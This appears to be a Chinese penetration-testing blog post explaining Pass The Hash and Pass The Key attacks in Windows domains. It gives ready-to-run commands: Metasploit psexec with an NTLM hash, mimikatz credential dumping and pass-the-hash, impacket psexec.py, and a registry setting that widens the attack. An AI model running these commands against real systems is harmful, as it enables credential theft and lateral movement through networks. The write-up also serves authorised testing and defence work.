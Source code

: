 ```yaml
---
title: "内网渗透-Pass The Hash(Key) 凭据传递攻击"
date: 2020-08-31 11:56:23 +0800
category: 内网渗透
tags: [内网,域]
excerpt: 内网渗透-Pass The Hash(Key) 凭据传递攻击
---
```

# Pass The Hash(Key) 凭据传递攻击
## 原理
	由于在进行认证的时候，是用用户hash加密时间戳，即使在使用密码进行登录的情况下，也是先把密码加密成hash，再进行认证。因此在只有用户hash，没有明文密码的情况下也是可以进行认证的。不管是rubeus还是impacket里面的相关脚本都是支持直接使用hash进行认证。其中，如果hash的ntlm hash，然后加密方式是rc4，这种就算做是pass the hash，如果是hash是aes key(使用sekurlsa::ekeys导出来)，就算是pass the key。在很多地方，不支持rc4加密方式的时候，使用pass the key不失为一种好方法。
## 利用条件
+ 在工作组环境中：
Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
Windows Vista 之后的机器，只能是administrator用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问。

+ 在域环境中：
只能是域管理员组内用户(可以是域管理员组内非administrator用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器
+ 修改目标机器的 LocalAccountTokenFilterPolicy 为1后，使用普通域管理员账号也可进行哈希传递攻击
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
````
## 利用方法
### msf
```
use exploit/windows/smb/psexec_psh 
msf5 exploit(windows/smb/psexec_psh) > set rhosts 192.168.1.107
msf5 exploit(windows/smb/psexec_psh) > set smbuser Administrator
exploit(windows/smb/psexec_psh) > set smbpass 31d6cfe0d16ae931b73c59d7e0c089c0:249dbaafa8643e3d2f7c692761ba83e7
```
或者
```
use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set rhosts 192.168.1.107
msf5 exploit(windows/smb/psexec) > set smbpass 31d6cfe0d16ae931b73c59d7e0c089c0:249dbaafa8643e3d2f7c692761ba83e7
msf5 exploit(windows/smb/psexec) > set smbuser Administrator
msf5 exploit(windows/smb/psexec) > run
```
### mimikatz
```
privilege::debug
sekurlsa::pth /user:用户名 /domain:域名 /ntlm:NTLMHash
```

### impacket
impacket底下执行远程命令执行的脚本有5个
> psexec.py
> smbexec.py
> atexec.py
> wmiexec.py
> dcomexec.py
都支持使用hash进行远程命令执行，通过--hashes指定hash,以psexec.py为例

#### psexec.py
```
python /usr/share/doc/python3-impacket/examples/psexec.py -hashes 31d6cfe0d16ae931b73c59d7e0c089c0:249dbaafa8643e3d2f7c692761ba83e7 ./Administrator@192.168.1.109
```
## pass the key
+ 前提：只适用于域环境，并且目标主机需要安装 KB2871997补丁(LocalAccountTokenFilterPolicy 为1)
```
//使用mimikatz抓取AES-256密钥
privilege::debug
sekurlsa::ekeys
//导入
privilege::debug
sekurlsa::pth /user:用户名 /domain:域名 /aes256:AES256密钥
//查看DC的共享文件夹
dir \\dc\c$
```